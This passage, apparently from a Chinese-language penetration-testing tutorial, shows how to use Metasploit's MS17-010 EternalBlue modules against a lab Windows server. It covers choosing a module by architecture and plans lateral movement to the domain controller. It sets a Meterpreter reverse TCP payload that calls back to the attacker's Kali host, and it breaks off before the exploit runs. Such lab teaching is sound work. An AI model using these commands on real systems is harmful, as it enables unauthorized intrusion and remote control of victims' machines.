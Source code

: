 很多易于攻击的目标。让我们挑一些。通过运行`ms10_010`的搜索，我们将找到与此漏洞相关的漏洞利用：

```
search ms17_010  
```

你会看到以下的漏洞利用：

![](img/510f8e16-7530-4785-bc90-26b36b9262d7.png)

我们有来自同一框架的三个漏洞利用。`ms17_010_eternalblue`漏洞利用在 64 位系统上效果最好。实际上，如果你输入 show payloads，你会发现只有 x64 payloads 被显示出来。我曾经使用 x32 位 payloads，并成功在 32 位系统上运行，但这可能会导致 32 位系统挂起，导致蓝屏或重启。

`ms17_010_psexec`漏洞利用在 32 位系统上效果最好。`ms17_010_eternalblue_win8`漏洞利用在 Win8 和 Win10 系统上效果最好。这个漏洞利用还可以绕过这些系统上的 ASLR 保护。

我发现这些漏洞在域控制器上效果不佳。这很可能是因为域控制器期望 Active Directory 登录凭据，并且无法允许连接到 SMB 服务。最好选择另一台服务器，然后横向移动到域控制器。这将是我们的攻击策略。

从之前的扫描中，我们发现有一个易受攻击的 64 位系统，BO-SRV3。我们将使用`ms17_010_eternalblue`漏洞利用来妥协这个系统。使用以下代码加载模块：

```
use exploit/windows/smb/ms17_010_eternalblue
show options # to show the options  
```

对于选项，您需要加载以下内容：

```
set RHOST 172.16.42.7
set SMBDomain LAB1
```

要查看可用的有效载荷，请输入以下命令：

```
show payloads  
```

我们将使用以下内容：

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.42.140 # This will be kali's IP address
show options # To check your set up  
```

